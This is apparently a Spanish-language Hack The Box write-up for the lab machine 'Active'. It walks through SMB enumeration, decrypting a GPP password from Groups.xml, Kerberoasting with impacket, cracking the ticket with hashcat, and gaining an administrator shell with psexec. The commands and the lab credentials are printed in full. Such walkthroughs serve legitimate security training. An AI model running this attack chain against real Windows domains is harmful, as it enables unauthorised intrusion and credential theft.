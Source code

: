 # 🏳 Active

<figure><img src="../../../../.gitbook/assets/Active.png" alt=""><figcaption></figcaption></figure>

<table><thead><tr><th width="227">Datos</th><th width="288.3333333333333"> </th><th>Notas</th></tr></thead><tbody><tr><td>Nombre de la máquina: </td><td><a href="https://app.hackthebox.com/machines/148">Activve</a></td><td></td></tr><tr><td>IP de la máquina:</td><td>10.10.10.100</td><td></td></tr><tr><td>Sistema simulado: </td><td>Windows Server</td><td></td></tr><tr><td>Servicio vulnerado: </td><td>smb</td><td></td></tr><tr><td>CVEs:</td><td></td><td></td></tr></tbody></table>

### 1. Enumeración y descubrimiento

Comenzamos el ejercicio realizando un reconocimiento con NMAP a todos los puertos de la máquina Artic.

```bash
nmap -sC -sV -sT 10.10.10.100 -p-
```

<figure><img src="../../../../.gitbook/assets/1 (2).png" alt=""><figcaption></figcaption></figure>

Nos intentamos conectar mediante smb y listamos que directorios existen en el smb.

<figure><img src="../../../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

En este punto nos intentamos conectar en el directorio  Replication que es el que nos llama la atención del smb al no ser habitual.

<figure><img src="../../../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

Vamos buscando dentro de los directorios y nos encontramos el fichero Groups.xml el cual nos descargamos mediante `get Groups.xml`

<figure><img src="../../../../.gitbook/assets/4 (3).png" alt=""><figcaption></figcaption></figure>

Vemos el contenido del fichero Groups el cual vamos a intentar desencriptar la contraseña.&#x20;

```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties acti>
</Groups>
```

Utilizamos gpp-decryp y conseguimos la contraseña del usuario SVC\_TGS

<figure><img src="../../../../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

En este punto vamos a intentar acceder a los diferentes directorios con esa contraseña. Para ir algo más rápido vamos a automatizar mediante crackmapexec.

```bash
crackmapexec smb 10.10.10.100 -u SVC_TGS -p GPPstillStandingStrong2k18 --shares
```

<figure><img src="../../../../.gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

En este punto accedemos y podemos ver la flag del usuario.

<figure><img src="../../../../.gitbook/assets/7 (2).png" alt=""><figcaption></figcaption></figure>



### 2. Escalada de privilegios

En este punto tenemos que investigar como realizar la escalada de privilegios en el sistema.&#x20;

Vamos a realizar un kerneroasting attack mediante [impacket-GetUserSPNs](https://wadcoms.github.io/wadcoms/Impacket-GetUserSPNs/) con nuestras credenciales obtenidas para el usuario SVC\_TGS y así obtendremos un hash de administrador.

```bash
impacket-GetUserSPNs -request active.htb/SVC_TGS:GPPstillStandingStrong2k18
```

<figure><img src="../../../../.gitbook/assets/8 (1).png" alt=""><figcaption></figcaption></figure>

Guardamos el hash en un fichero al cual aplicaremos fuerza bruta mediante el diccionario rockyou.txt  con hashcat onteniendo la contraseña `Ticketmaster1968`.

```bash
hashcat -m 13100 -a 0 /root/2 /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt --force
```

Volvemos a utilizar crackmapexec para probar con los diferentes direcrotios del smb esta vez como el usuario administrador.

```bash
crackmapexec smb 10.10.10.100 -u Administrator -p Ticketmaster1968
```

<figure><img src="../../../../.gitbook/assets/9.png" alt=""><figcaption></figcaption></figure>

Con esto tendríamos acceso como root a la máquina y podriamos conectarnos a la misma y obtener acceso a la flag.&#x20;

```bash
impacket-psexec WORKGROUP/Administrator:Ticketmaster1968@active.htbsh
```

<figure><img src="../../../../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Si te he ayudado sígueme y apóyame en [Hack The Box ](https://app.hackthebox.com/profile/819073)
{% endhint %}
